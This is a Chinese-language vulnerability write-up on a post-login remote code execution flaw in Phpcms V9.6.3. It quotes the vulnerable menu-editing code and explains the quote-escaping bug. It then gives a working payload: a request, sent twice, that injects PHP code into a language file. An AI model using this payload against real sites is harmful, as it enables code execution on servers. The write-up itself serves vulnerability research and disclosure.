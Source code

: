 # Phpcms V9.6.3 后台远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

Phpcms V9.6.3

## 三、复现过程

### 漏洞分析

漏洞代码位于 `/phpcms/modules/admin/menu.php` 第 81 行

```php
function edit() {
    if(isset($_POST['dosubmit'])) {
        $id = intval($_POST['id']);
        //print_r($_POST['info']);exit;
        $r = $this->db->get_one(array('id'=>$id));
        $this->db->update($_POST['info'],array('id'=>$id));
        //修改语言文件
        $file = PC_PATH.'languages'.DIRECTORY_SEPARATOR.'zh-cn'.DIRECTORY_SEPARATOR.'system_menu.lang.php';
        require $file;
        $key = $_POST['info']['name'];
        if(!isset($LANG[$key])) {
            $content = file_get_contents($file);
            $content = substr($content,0,-2);
            $data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";
            file_put_contents($file,$data);
        } elseif(isset($LANG[$key]) && $LANG[$key]!=$_POST['language']) {
            $content = file_get_contents($file);
            $content = str_replace($LANG[$key],$_POST['language'],$content);
            file_put_contents($file,$content);
        }
        $this->update_menu_models($id, $r, $_POST['info']);         
        //结束语言文件修改
        showmessage(L('operation_success'));
    } else {

    .  .  .   .  .  .  

    }
}

```

这段代码是修改语言文件用的，而这个语言文件就是 /phpcms/languages/zh-cn/system_menu.lang.php

里面一堆类似 `$LANG['video'] = '视频';` 的东西

当时用 rips 扫描发现的大多是 `$data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";` 这种拼接操作，而且 POST 中的单引号会被转义，无法逃逸

转义代码位于 `/phpcms/libs/classes/param.class.php`

```php
public function __construct() {
    if(!get_magic_quotes_gpc()) {
        $_POST = new_addslashes($_POST);
        $_GET = new_addslashes($_GET);
        $_REQUEST = new_addslashes($_REQUEST);
        $_COOKIE = new_addslashes($_COOKIE);
    }

}

```

而这里突然看到一个 str_replace ， `str_replace($LANG[$key],$_POST['language'],$content)`，感觉可能会有漏洞

一番胡乱测试之后惊奇的发现网站 500 了，细看原来是单引号逃逸导致报错

下面是漏洞分析过程

首先要登录后台拿到 pc_hash 的值，这个是防止提交恶意数据的，后台首页 F12 就能看到

![1.png](images/2020_06_13/652578ae8b0140a8864a26d3dbd076b3.png)

然后访问：

```
http://www.baidu.com:9000/index.php?m=admin&c=menu&a=edit&pc_hash=wCuF7w

```

phpcms 的路由和那个 yzmcms 差不多，m 是模块名，对应 /phpcms 下的文件夹，c 是控制器名，对应 /phpcms/模块/ 下的 php 文件名，a 则对应控制器类的类函数名

发送 POST 请求：

```
dosubmit=1&info[name]=1&language=1

```

语言文件最后会新添内容

```
$LANG['1'] = '1';

```

### 第一次请求

发送 POST 请求：

```bash
dosubmit=1&info[name]=1&language=1'

```

`require $file;` 引入语言文件，`$LANG[$key]` 的值还是 NULL，所以执行拼接操作

```
$data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";
file_put_contents($file,$data);

```

得到语言文件新添内容为

```
$LANG['1'] = '1\'';
?>

```

### 第二次请求

发送与第一次相同的 POST 请求

`require $file;` 引入语言文件得到 `$LANG[$key]` 的值是 `string(2) "1'"`，也就是说，没有反斜杠，这样问题就出现了，我们同样的请求发送了两次，按照代码逻辑来看，是不应该更新 `$LANG[$key]` 的值的

但是因为 `require` 和 `file_get_contents` 函数读取之后的文件内容不含反斜杠，而我们 POST 传入的 language 会被转义处理得到的值是 `string(3) "1\'"`

于是判断 `$LANG[$key]!=$_POST['language']` 就成立了，接着 `str_replace` 函数进行字符串替换操作，把原来的 `$LANG['1'] = '1\'';` 中的 `1'` 替换成 `1\'`，最终写入文件

结果就得到了以下文件内容，第二个单引号被反斜杠转义，无法闭合

```
$LANG['1\'] = '1\'';
?>

```

payload:

发送两次以下请求，访问语言文件 http://www.baidu.com:9000/phpcms/languages/zh-cn/system_menu.lang.php 即可得到 phpinfo

URL:

```
http://www.baidu.com:9000/index.php?m=admin&c=menu&a=edit&pc_hash=wCuF7w

```

POST:

```
dosubmit=1&info[name]=];phpinfo();//1&language=];phpinfo();//1'

```

![2.png](images/2020_06_13/8a3f60c143474273a9d4f3b5c523421f.png)

## 参考链接

> http://j0k3r.top/2019/10/09/phpcmsv9.6.3_background_rce/

